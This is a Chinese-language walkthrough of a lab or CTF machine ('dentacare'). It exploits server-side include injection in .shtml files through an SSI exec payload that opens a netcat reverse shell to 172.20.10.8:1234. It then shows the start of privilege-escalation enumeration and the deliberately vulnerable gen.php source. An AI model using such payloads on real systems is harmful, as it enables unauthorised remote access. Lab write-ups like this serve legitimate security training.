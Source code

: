 ### 反弹shell

先试探一下这个玩意是否可以执行命令！

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202405282101693.png" alt="image-20240528195626967" style="zoom:50%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202405282101694.png" alt="image-20240528200104764" style="zoom: 33%;" />

发现文件格式为`shtml`，尝试查看一下：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202405282101695.png" alt="image-20240528200215774" style="zoom: 50%;" />

继续查看：https://book.hacktricks.xyz/pentesting-web/server-side-inclusion-edge-side-inclusion-injection#server-side-inclusion-basic-information

发现存在反弹shell方法：

```
<!--#exec cmd="mkfifo /tmp/foo;nc 172.20.10.8 1234 0</tmp/foo|/bin/bash 1>/tmp/foo;rm /tmp/foo" -->
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202405282101696.png" alt="image-20240528200729844" style="zoom:33%;" />

弹过来了！

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202405282101697.png" alt="image-20240528200745635" style="zoom:50%;" />

## 提权

### 信息搜集

```bash
(remote) www-data@dentacare:/var/www/html$ whoami;id
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
(remote) www-data@dentacare:/var/www/html$ ls -la
total 28
drwxr-xr-x 2 www-data www-data 4096 Apr 14 08:02 .
drwxr-xr-x 3 root     root     4096 Apr  9 19:08 ..
-rw-r--r-- 1 root     root      537 Apr 14 08:01 .htaccess
-rw-r--r-- 1 www-data www-data  268 Apr 12 20:04 gen.php
-rw-r--r-- 1 www-data www-data  347 Apr 12 20:04 index.shtml
-rw-r--r-- 1 www-data www-data  183 May 28 14:07 patient_name.shtml
-rw-r--r-- 1 www-data www-data   95 Apr 12 20:04 process.php
(remote) www-data@dentacare:/var/www/html$ cat gen.php 
<?php

$userCommand = $_GET['cmd'] ?? 'echo Pas de commande spécifiée';

file_put_contents('patient_name.shtml', "<html><body><h1>Patient with unpaid balance added to database :</h1>\"$userCommand\"</body></html>");

header("Location: patient_name.shtml");
exit;
?>
(remote) www-data@dentacare:/var/www/html$ cat process.php 
<?php
$userInput = $_GET['query'] ?? '';

header("Location: hello.shtml?$userInput");
exit;
?>
(remote) www-data@dentacare:/var/www/html$ sudo -l
[sudo] password for www-data: 
sudo: a password is required
```